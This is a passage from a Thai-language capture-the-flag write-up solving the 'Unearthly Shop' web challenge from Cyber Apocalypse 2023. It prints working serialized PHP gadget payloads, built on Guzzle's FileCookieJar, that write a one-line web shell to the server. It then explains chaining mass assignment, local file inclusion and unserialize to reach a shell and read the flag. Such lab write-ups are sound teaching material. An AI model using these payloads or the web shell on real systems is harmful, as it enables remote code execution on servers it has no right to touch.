 ```php
}
```

โดยตัว generator นี้เมื่อ run จะได้มา 2 gadget คือ

1. อันแรกจะเป็น class `Exploit` โดยจะมี sub object สองตัวคือ `www_frontend_vendor_autoload` และ `FileCookieJar` ตัวแรกจะใช้ LFI ไปโหลด gadget จาก frontend app มา อันที่สองจะเป็น gadget สำหรับเขียนไฟล์ไปที่ `/var/lib/nginx/body/exploit.php` โดยมีเนื่อหาไฟล์คือ `<?php $_GET[0]($_GET[1]);?>`

2. อันที่สองจะเป็นการแค่ไป LFI ไฟล์ที่เขียนไว้คือ `/var/lib/nginx/body/exploit.php` โดย init class `var_lib_nginx_body_exploit` ได้ดังนี้

```
bongtrop@Pongsakorns-MacBook-Air:/tmp/ $ php unearthly_shop_gadget_generator.php
PHP Deprecated:  Creation of dynamic property GuzzleHttp\Cookie\SetCookie::$data is deprecated in /private/tmp/unearthly_shop_gadget_generator.php on line 19

Deprecated: Creation of dynamic property GuzzleHttp\Cookie\SetCookie::$data is deprecated in /private/tmp/unearthly_shop_gadget_generator.php on line 19
Step 1:
{"_id":1,"username":"admin","password":"admin","access":"O:7:\"Exploit\":2:{s:10:\"\u0000Exploit\u0000a\";O:28:\"www_frontend_vendor_autoload\":0:{}s:10:\"\u0000Exploit\u0000b\";O:31:\"GuzzleHttp\\Cookie\\FileCookieJar\":4:{s:36:\"\u0000GuzzleHttp\\Cookie\\CookieJar\u0000cookies\";a:1:{i:0;O:27:\"GuzzleHttp\\Cookie\\SetCookie\":1:{s:4:\"data\";a:2:{s:7:\"Expires\";s:27:\"<?php $_GET[0]($_GET[1]);?>\";s:7:\"Discard\";i:0;}}}s:39:\"\u0000GuzzleHttp\\Cookie\\CookieJar\u0000strictMode\";N;s:41:\"\u0000GuzzleHttp\\Cookie\\FileCookieJar\u0000filename\";s:31:\"\/var\/lib\/nginx\/body\/exploit.php\";s:52:\"\u0000GuzzleHttp\\Cookie\\FileCookieJar\u0000storeSessionCookies\";b:1;}}"}

Step 2:
{"_id":1,"username":"admin","password":"admin","access":"O:26:\"var_lib_nginx_body_exploit\":0:{}"}
```

### 3. โจมตี Mass Assignment และ re-login สำหรับ gadget step 1

โจมตี Mass Assignment เพื่อเปลี่ยน `access` ของ user admin ให้เป็น payload step 1 ดังภาพ

![Exploit Mass Assignment Step 1](/images/uploads/writeup_cyber_apocalypse_2023_unearthly_shop/exploit_mass_assignment_step_1.png)

ทำการ login เข้าหน้า admin dashboard ใหม่อีกครั้งเพื่อ trigger function `unserialize` จะได้ error 500 unserialize มาไม่เจอ object อย่างที่หวัง แต่ gadget เราทำงานไปแล้ว

### 4. โจทตี Mass Assignment และ re-login สำหรับ gadget step 2

โจมตี Mass Assignment อีกครั้งเพื่อเปลี่ยน `access` เป็น payload step 2 ดังภาพ

![Exploit Mass Assignment Step 1](/images/uploads/writeup_cyber_apocalypse_2023_unearthly_shop/exploit_mass_assignment_step_2.png)

ทำการ login ใหม่อีกครั้งและก็จะได้ shell แล้ว ไปอ่าน flag ได้เลย โดยการ execute `/readflag` ดังภาพ

![RCE Readflag](/images/uploads/writeup_cyber_apocalypse_2023_unearthly_shop/rce_readflag.png)

## สรุป
